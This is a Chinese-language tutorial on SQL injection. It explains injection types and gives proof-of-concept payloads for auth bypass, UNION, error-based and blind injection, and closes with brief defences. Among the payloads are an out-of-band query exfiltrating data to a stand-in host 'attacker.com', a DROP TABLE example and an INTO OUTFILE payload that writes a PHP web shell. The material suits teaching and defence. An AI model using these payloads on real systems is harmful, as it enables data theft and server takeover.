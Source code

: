 # SQL注入

## SQL 注入

### 一、漏洞定义

SQL 注入（SQL Injection）是指攻击者通过构造恶意 SQL 语句，将其注入 Web 应用程序中，最终在后台数据库执行非预期命令的行为，从而达到读取、修改、删除数据库内容，甚至控制服务器的目的。

***

### 二、常见类型分类

| 类型    | 描述                                     |
| ----- | -------------------------------------- |
| 数字型注入 | 参数为纯数字（如 id=1）                         |
| 字符型注入 | 参数包含字符串（如 name='admin'）                |
| 报错注入  | 利用数据库的报错信息泄露结构信息                       |
| 盲注    | 页面无报错信息，但可通过布尔或时间判断注入成功                |
| 联合注入  | 使用 `UNION SELECT` 合并查询结果数据             |
| 堆叠注入  | 使用 `;` 执行多条语句（如 `1; DROP TABLE users`） |
| 二次注入  | 恶意语句存入数据库后在未来某次查询中被执行                  |
| 内联注入  | 注入点存在于嵌套子查询或复杂语句中                      |
| 带外注入  | 触发数据库产生外部请求（如 DNS/HTTP）用于传出数据          |

***

### 三、漏洞原理详解

SQL 注入的本质是“用户输入被拼接进 SQL 查询语句中，未经过正确处理”，从而使攻击者能够控制查询的结构或内容。

例如：

```sql
query = "SELECT * FROM users WHERE username = '" + user_input + "'"
```

若 `user_input = admin'--`，则最终查询为：

```sql
SELECT * FROM users WHERE username = 'admin'--'
```

其中 `'--` 注释了原本查询结构中的剩余部分，绕过了认证逻辑。

***

### 四、典型实例（含 POC）

#### 1. 数字型注入

```http
http://example.com/item.php?id=1 OR 1=1
```

联合注入：

```sql
?id=1 UNION SELECT 1, database(), user(), version()
```

***

#### 2. 字符型注入

```http
http://example.com/login.php?user=admin'--&pass=123
```

后台 SQL：

```sql
SELECT * FROM users WHERE user='admin'--' AND pass='123'
```

***

#### 3. 报错注入（MySQL）

```sql
?id=1 AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT user()), FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
```

***

#### 4. 布尔盲注

```http
?id=1 AND 1=1     // 页面正常
?id=1 AND 1=2     // 页面异常
```

用于逐位判断敏感信息。

***

#### 5. 时间盲注

```sql
?id=1 AND IF(SUBSTR(user(),1,1)='r', SLEEP(3), 0)
```

响应延迟说明判断为真。

***

#### 6. 带外注入（Out-of-Band）

```sql
?id=1 AND LOAD_FILE(CONCAT('\\\\',(SELECT user()),'.attacker.com\\'))
```

或使用 `xp_dirtree`, `dnslookup`, `UTL_HTTP.REQUEST` 等方法触发外部连接，从而传出数据。

***

#### 7. 利用写入 WebShell（MySQL）

```sql
?id=1 UNION SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php'
```

条件：

* 具备 `FILE` 权限
* 目标目录可写
* 服务器运行的是 Apache/Nginx 并可解析 PHP

***

### 五、利用方式

* 绕过身份验证
* 获取数据库信息（库名、表名、字段、数据）
* 写入 WebShell 实现服务器控制
* 利用带外通道传出数据（如 DNS 回传）

***

### 六、防御与修复方式

* 预编译 （sql注入只对sql语句的编译有破坏作用。而PreparedStatement已经准备好了,执行阶段只是把输入串作为数据处理,而不再对sql语句进行解析。但预编译不能解决全部的问题，比如orderby后面的参数其实无法通过预编译解决）
* 字符串过滤
* 禁用危险函数（ `load_file`, `into outfile`）

***

